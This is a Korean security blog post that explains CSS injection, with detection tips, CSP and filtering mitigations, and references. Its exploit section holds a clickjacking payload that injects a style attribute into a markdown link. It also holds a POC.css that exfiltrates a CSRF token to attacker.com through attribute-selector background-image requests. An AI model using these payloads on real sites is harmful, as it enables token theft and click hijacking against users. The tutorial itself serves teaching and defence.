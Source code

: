 ```yaml
---
layout: post
title: CSS Injection
subtitle: Style 속성 및 태그를 활용한 공격
author: g3rm
categories: Web
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - Style
  - CSS
  - Clickjacking
  - KeyLogging
  - WEB
sidebar:
---
```

## Intro
CSS Injection은 사용자가 `<style>` 태그 혹은 style 속성을 임의로 삽입할 수 있을 때 나타나는 취약점입니다.   

해당 취약점은 그 자체 위험도는 크지 않다고 생각하지만, User Interaction이 필요한 취약점을 쉽게 트리거 되도록 만들 수 있습니다.   

주로 `<a>` 태그에 사용하여 ***사용자의 클릭을 하이제킹***하는 Payload를 사용합니다. 혹은 `<style>`, `<link>` 태그가 삽입이 가능할 시 .css 파일을 불러올 수 있어 이 때는 ***Keylogging 혹은 CSRF 토큰 탈취*** 용도로 Payload를 작성할 수 있습니다.
## Detect & Exploit 
### Detect
탐지 방법의 경우 XSS와 유사합니다.   
`<style>` 태그 및 style 속성을 임의로 삽입할 수 있는 지 여부를 살피면 됩니다.
### Exploit
> 🕶️ Clickjacking 목적이라면 부모 태그를 벗어나 페이지 어디에나 위치시킬 수 있는 `position` 속성이 가장 중요합니다. 

```Markdown
# In Markdown
[Clickjacking](https://attack.com"style="position:fixed;top:0;left:0;width:100vw;height:100vh;background-color:transparent;z-index:9999;)

# In Custom Color Setting
bgColor=#ffffff;position:fixed;...[위와 동일]
```

```
# In Tag
<style>@import ("https://attacker.com/POC.css")</style>

# POC.css
input[name=csrf][value^=a]{
    background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^=b]{
    background-image: url(https://attacker.com/exfil/b);
}
/* ... */
input[name=csrf][value^=9]{
    background-image: url(https://attacker.com/exfil/9);   
}
```

## Security Measures
가장 좋은 방법은 사용자가 임의로 `<style>` 태그 및 속성을 삽입할 수 없도록 조치하는 것입니다.   
서비스 특성 상 해당 조치 방법이 어려울 경우 CSP 정책을 통해 외부 링크에서 .css 파일을 가져오지 못하도록 하고, `position` 속성 등을 필터링 하여 악성 링크가 담긴 태그가 페이지 내 자유롭게 위치할 수 없도록 해야 합니다.
## References
[Better Exfiltration via HTML Injection](https://d0nut.medium.com/better-exfiltration-via-html-injection-31c72a2dae8b)
[CSS Injection](https://book.hacktricks.xyz/kr/pentesting-web/xs-search/css-injection)